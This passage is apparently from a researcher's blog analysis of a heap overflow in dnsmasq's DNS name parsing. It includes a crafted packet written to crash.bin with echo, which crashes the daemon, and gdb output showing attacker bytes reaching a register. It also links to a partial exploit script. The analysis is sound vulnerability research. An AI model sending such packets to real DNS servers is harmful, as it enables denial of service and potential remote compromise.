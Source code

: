At the start, <tt>l</tt> is the length of the segment (so 6 in the case of "google"). It adds that to the current TOTAL length - <tt>namelen</tt> - then checks if it's too long - this is the check that prevents a buffer overflow.

Then it reads in <tt>l</tt> bytes, one at a time, and copies them into a buffer - <tt>cp</tt> - which happens to be on the heap. the <tt>namelen</tt> check prevents that from overflowing.

*Then it copies a period into the buffer and doesn't increment namelen*.

Do you see the problem there? It adds <tt>l</tt> to the total length of the buffer, then it reads in <tt>l + 1</tt> bytes, counting the period. Oops?

It turns out, you can mess around with the length and size of substrings quite a bit to get a lot of control over what's written rare, but exploiting it is as simple as doing a lookup for "\\x08AAAAAAAA\\xc0\\x0c":

```
<pre id="vimCodeElement">
$ <span class="Statement">echo</span><span class="Constant"> -ne </span><span class="Statement">'</span><span class="Constant">\x12\x34\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x08AAAAAAAA\xc0\x0c\x00\x00\x01\x00\x01</span><span class="Statement">'</span><span class="Constant"> </span><span class="Statement">></span> crash.bin
$ ./dnsmasq <span class="Special">-d</span> <span class="Special">--randomize-port</span> <span class="Special">--client-fuzz=./crash.bin</span>
<span class="Comment">[</span>...<span class="Statement">]</span>
Segmentation fault
```

However, there are two termination conditions: it'll only loop a grand total of 255 times, and it stops after <tt>namelen</tt> reaches 1024 (non-period) bytes. So coming up with the best possible balance to overwrite what you want is actually pretty tricky - possibly even requires a bit of calculus (or, if you're an engineer, [a program that can optimize it for you](https://blogdata.skullsecurity.org/dnsmasq-partial-sploit.rb) :) ).

I should also mention: the reason the "\\xc0\\x0c" is needed in the first place is that it's impossible to have a name string in that's 1024 bytes - somewhere along the line, it runs afoul of a length check. The "\\xc0\\x0c" method lets us repeat stuff over and over, sort of like decompressing a small string into memory, overflowing the buffer.

## Exploitability

I mentioned earlier that it's a null-pointer deref:

```
<pre id="vimCodeElement">
(gdb) x/i <span class="Identifier">$rip</span>
=> <span class="Constant">0x7ffff73cc600</span> <__strcpy_sse2+<span class="Constant">192</span>>:  mov    BYTE PTR [rdx],al
(gdb) <span class="Constant">print</span>/x <span class="Identifier">$rdx</span>
$1 = <span class="Constant">0x0</span>
```

Let's try again with the crash.bin file we just created, using "\\x08AAAAAAAA\\xc0\\x0c" as the payload:

```
<pre id="vimCodeElement">
$ echo -ne <span class="Constant">'\x12\x34\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x08AAAAAAAA\xc0\x0c\x00\x00\x01\x00\x01'</span> > crash.bin
$ gdb -q --args ./dnsmasq -d --randomize-port --client-fuzz=./crash.bin
[...]
(gdb) run
[...]
(gdb) x/i <span class="Identifier">$rip</span>
=> <span class="Constant">0x449998</span> <answer_request+<span class="Constant">1064</span>>:      mov    DWORD PTR [rdx+<span class="Constant">0x20</span>],<span class="Constant">0x0</span>
(gdb) <span class="Constant">print</span>/x <span class="Identifier">$rdx</span>
$1 = <span class="Constant">0x4141412e41414141</span>
```
